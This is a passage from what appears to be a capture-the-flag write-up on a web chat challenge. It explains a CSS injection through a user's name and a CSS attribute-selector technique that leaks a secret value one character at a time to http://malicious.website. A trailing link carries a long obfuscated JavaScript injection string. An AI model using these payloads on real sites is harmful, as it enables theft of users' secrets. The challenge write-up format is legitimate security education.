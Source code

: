- *There are basicaly two types of the requests which I'll be respectively calling `global` and `private`. The former are those which are being broadcasted to all participants in the chatroom such as `/report` `/ban`, `<message>` and `/name` and the latter being seen only by the user invoking them such as `/rename` and `/secret`. These are handled by the `EventSource` object inside [catchat.js] script.*
- *Data is being escaped only by the client side and it is done with a help of the following function `let esc = (str) => str.replace(/</g, '&lt;').replace(/>/g, '&gt;').replace(/"/g, '&quot;').replace(/'/g, '&apos;');`*
- *When an admin joins the room he uses exactly the same page as the others but with the function `cleanupRoomFullOfBadPeople()` invoked.*


## CSS Injection
It seems that every parsed element on the website is properly escaped so injecting an additional [DOM Element] is rather impossible. It is done by the `esc(str)` function mentioned earlier which replaces each character `'`, `"`, `<`, `>` with its [HTML Entity] substitute. But there is one improperly escaped element. The element allowing us to do the [CSS Injection]! Let's have a closer look at it.
```js
display(`${esc(data.name)} was banned.<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`);
```
We see that escaping `data.name` this way won't prevent the called vulnerability. I believe that there are either `quotation marks` outside of the `${esc(data.name)}` missed or escaping two additional characters`[` and `]` which should prevent this type of attack. For the sake of an example let's change our name to `i]{} body{background: red} i[i=`. The inserted element (after getting banned for *I ❤ dogs!* message) should look like: `i]{} body{background: red} i[i= was banned.<style>span[data-name^=i]{} body{background: red} i[i=]{color: red; }</style>` which is a completely valid [CSS Code]. Let's try out our payload on the website! 

![css_injection]

Firstly, we used the fact that anyone can join the same room, so we used two windows to observe the outcome. Then we changed our name to the payload above to finally call for an admin just to provoke him with the message *I ❤ dogs!* in a moment he joins. As we can see, every participant's window in the chat room, except the one getting banned, should likely turn into red. 


But how could we use this finding to steal the admin's secret key? Well, this is the question that we have no direct answer on yet but the idea is to generate a proper set of [CSS Selector Rules] sending the sensitive data over. I will shortly explain how these selectors work in a simple example. Suppose we have exactly one `<input id="secret" value="Top Secret Value"/>` element on the page and two selectors `#secret[value^=T]{background: url(http://malicious.website/?ch=T)}` and `#secret[value^=t]{background: url(http://malicious.website/?ch=t)}`. In natural language it translates to *If element of id 'secret' starts with the prefix '&lt;prefix&gt;' set its background value to '&lt;url(...)&gt;'*. The important thing here is that the content from the provided *URL* will not be preloaded. It means that it's only fetched when the element is going to be rendered. Thanks to it, we can get to know each character in the `value` attribute by consistently expanding out the prefix of already known characters.

## Self Injection
But hey, we cannot send any information outside the domains included in the `CSP` header! So how can we acquire it? And what exactly are we going to steal in the first place?


[CSS Injection]: <https://www.owasp.org/index.php/Testing_for_CSS_Injection_(OTG-CLIENT-005)>
[CRLF]: <https://www.owasp.org/index.php/CRLF_Injection>
[CSRF]: <https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)>
[Header Injection]: <https://www.owasp.org/index.php/HTTP_Response_Splitting>
[SQL Injection]: <https://www.owasp.org/index.php/SQL_Injection>
[XSS Injection]: <https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)>
[CSS Code]: <https://www.w3schools.com/html/html_css.asp>
[HTML Entity]: <https://www.w3schools.com/html/html_entities.asp>
[DOM Element]: <https://www.w3schools.com/jsref/dom_obj_all.asp>
[CSS Selector Rules]: <https://www.w3schools.com/cssref/css_selectors.asp>
[documentation]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie>
[RegExp]: <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_Expressions>
[HTTP Header]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers>
[CSP]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP>
[Google reCAPTCHA]: <https://www.google.com/recaptcha/intro/v3beta.html>
[Tampermonkey]: <http://tampermonkey.net/>
[console]: <https://developers.google.com/web/tools/chrome-devtools/console/>
[solution]: <./gifs/solution.gif>
[command_injection]: <./gifs/command_injection.gif>
[css_injection]: <./gifs/css_injection.gif>
[header_injection]: <./gifs/header_injection.png>
[self_injection]: <./gifs/self_injection.png>
[server.js]: <./files/server.js>
[catchat.js]: <./files/catchat.js>
[cat_talks_solver.user.js]: <./cat_talks_solver.user.js>
[cat_talks_minified.js]: <./cat_talks_solver_minified.js>
[Issue]: <https://issuetracker.google.com/issues/111032474>
[JSFuck]: <http://www.jsfuck.com/>
[api.js]: <https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu>
[https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu');&#x5B;&#x5D;&#x5B;(!&#x5B;&#x5D;+&#x5B;&#x5D;)...();(']: <https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27)>
